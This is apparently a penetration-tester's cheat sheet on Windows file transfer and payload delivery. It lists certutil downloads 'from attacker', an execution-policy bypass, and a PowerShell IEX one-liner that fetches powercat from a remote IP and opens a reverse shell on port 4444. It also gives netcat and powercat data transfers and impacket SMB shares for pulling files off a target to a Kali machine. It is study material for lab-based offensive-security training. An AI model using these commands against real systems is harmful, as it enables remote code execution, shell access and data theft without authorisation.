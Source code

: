 
#### CMD

`certutil -urlcache -split -f "http://ip/file" file` - download remote file from attacker

`powershell -FILE "file.ps1"` - execute file from cmd using powershell.

`powershell -ExecutionPolicy Bypass -File "C:\Scripts\MyScript.ps1"` - attempt to bypass execution policy and execute script.

#### PowerShell

methods used to download powercat.ps1 from attacker:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://ip/powercat.ps1","C:\path\powercat.ps1")
```

`nc -lnvp 443 > notes.txt` - run on attacking machine

`powercat -c 192.168.1.3 -p 443 -i notes.txt` - run on target machine to transfer files

### Kali

`smbclient //192.168.223.195/share -c 'put config.Library-ms'` - transfer file via smbclient from kali to windows share.

##### host smb server on kali

1. `impacket-smbserver share $(pwd) -smb2support -user kali -password kali` host smb server on kali machine - USE ROOT TERMINAL

2. `net use \\kali-ip\share /u:username password` - use share on windows machine - this allows the windows machine to interact with the share on the kali box

3. `copy file.txt \\kali-ip\share\file.txt` - send file to kali smb share from windows poweshell/cmd